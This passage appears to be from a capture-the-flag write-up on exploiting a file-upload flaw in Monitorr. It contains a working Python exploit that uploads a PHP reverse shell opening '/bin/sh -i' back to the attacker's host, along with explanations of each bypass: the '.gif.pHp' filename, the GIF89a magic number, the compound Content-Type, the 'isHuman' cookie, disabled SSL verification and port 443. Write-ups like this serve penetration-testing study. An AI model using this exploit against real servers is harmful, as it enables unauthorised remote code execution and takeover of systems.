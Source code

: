```python
data = "-----------------------------31046105003900160576454225745\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\""+filename+"\"\r\nContent-Type: image/png, text/plain, application/octet-stream\r\n\r\nGIF89a<?php $sock=fsockopen(\""+lhost+"\","+lport+");$proc=proc_open(\"/bin/sh -i\", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);\r\n\r\n-----------------------------31046105003900160576454225745--\r\n"

r = requests.post(url,cookies={"isHuman":"1"}, headers=headers, data=data, verify=False)

# This part is unnecessary as the script can be invoked by browsing it in the browser (as long as the file is still there)

print ("A shell script should be uploaded. Now we try to execute it")
url = host + "/assets/data/usrimg/"+filename.lower()
headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
s =requests.get(url, headers=headers, verify=False)              
```

If you compare this and the original version of the script you will find the following differences (apart from extracting the variables):

#### File name
File that is being uploaded is renamed to `*.gif.pHp` to pass the checks.

#### SSL verification skip
Monitorr is accessed via HTTPS protocol and browser warns about the certificate. The only way to get past this is to set `verify` to `False`. You did see similar thing done to `curl` before - `curl` is using `-k` for skipping SSL verification.

#### You are an exploit
Of course `isHuman` cookie have to be set to `1`.

#### Content-Type
Getting the example from Hacktrick's [Bypassing Content-Type](https://book.hacktricks.xyz/pentesting-web/file-upload#bypass-content-type-and-magic-number), I'm sending the compound `Content-Type: image/png, text/plain, application/octet-stream`.

#### Magic Number
Original GIF header looked overcomplicated, so I went with simple `GIF89a`

#### PHP Reverse Shell
For the reverse shell I'm using the code I've been using on other boxes before (sourced from [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)).

#### Port
Although the port is not specified in the original PoC, I've tried with 4444, 4445 and I couldn't make it work. What solved the issue was using the _legit_ port like 443.

#### Reading the file
This part is unnecessary if the reverse shell script will be left on the system, as it can be executed requesting the file ex. by browsing the file from the browser.
